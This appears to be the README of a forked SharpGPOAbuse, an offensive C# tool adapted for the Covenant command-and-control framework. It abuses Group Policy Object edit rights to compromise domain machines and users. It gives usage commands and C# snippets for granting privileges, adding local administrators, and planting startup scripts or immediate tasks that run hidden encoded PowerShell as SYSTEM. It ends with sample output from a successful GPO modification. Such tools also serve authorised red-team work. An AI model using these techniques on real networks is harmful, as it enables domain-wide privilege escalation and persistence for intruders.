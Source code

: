 # SharpGPOAbuse

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork of a fork provides some modifications for use with Covenant's Grunts. The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs), removing the dependency for CommandLineParser, and the implementation of a custom parser. Because Covenant splits on spaces, the Assembly will combine all arguments and attempt to parse out options based on equal signs. For this reason, arguments are passed via `specialkeyword=Any Value`. There may be edge cases with the parser but the Assembly will tell you which options it interpreted.

## Compile Instructions

SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage

```
SharpGPOAbuse (Friendly Fork)
  AddNewRights:
    SharpGPOAbuse.exe AddNewRights [GPOName] [UserAccount] [UserRights CSV]
  NewLocalAdmin:");
    SharpGPOAbuse.exe NewLocalAdmin [GPOName] [UserAccount]
  NewStartupScript:");
    SharpGPOAbuse.exe NewStartupScript [GPOName] [UserAccount] [ScriptContent]
  NewImmediateTask:");
    SharpGPOAbuse.exe NewImmediateTask [GPOName] [Author] [TaskName] [CommandPath] [Arguments]
```

## Attacks Types

Currently SharpGPOAbuse supports the following options:

| Option                                                            | Description                          |
| ----------------------------------------------------------------- | ------------------------------------ |
| [AddUserRights](#adding-user-rights)                              | Add rights to a user                 |
| [AddLocalAdmin](#adding-a-local-admin)                            | Add a user to the local admins group |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script) | Add a new computer startup script    |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)     | Configure a user logon script        |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task) | Configure a computer immediate task  |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)     | Add an immediate task to a user      |

## Attack Options

### Adding User Rights

```c#
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin

```c#
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script

```c#
string ScriptName = "Startup.bat";
string ScriptContent = "powershell.exe -Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task

```c#
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output

```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```
